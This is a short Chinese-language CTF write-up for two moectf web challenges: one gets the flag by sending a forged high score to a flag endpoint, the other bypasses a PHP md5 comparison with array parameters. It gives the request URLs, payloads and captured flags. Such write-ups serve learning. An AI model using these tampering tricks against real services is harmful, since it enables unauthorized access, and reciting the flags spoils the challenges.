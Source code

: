 ### **05 2048**

任意玩了几下，回显50000分才给你flag(~~果断不上当~~)
查看源代码发现这个

```php
getFlag: function() {
var req = new XMLHttpRequest;
req.open("GET","flag.php?score="+obj.score,true);
req.onload = function() {
alert(this.responseText);
}
req.send();
}
}
```

发送GET

`http://47.93.215.154:5001/flag.php?score=5000000000000`
获得flag

- Flag

    moectf{2048_1s_intere5t1ng!}

### 06 Web_Inc

> [https://blog.csdn.net/CSDNiamcoming/article/details/108837347](https://blog.csdn.net/CSDNiamcoming/article/details/108837347)

```php
?php
error_reporting(0);
include_once "flag.php";
$a=$_GET['a'];
$b=$_POST['b'];
if(isset($a)){
    if($a!=$b&&md5($a)===md5($b)){//
        echo $flag;
    }else{
        echo 'try again';
    }
}else{
    highlight_file(__FILE__);
}
```

尝试用了数组绕过

[`http://47.98.215.112:78/?a[]=1`](http://47.98.215.112:78/?a%5B%5D=1)

`再用Hackbar 传post: b[]=2` 直接接住flag

- Flag

    moectf{xdsec3gf9dfg62fh342}
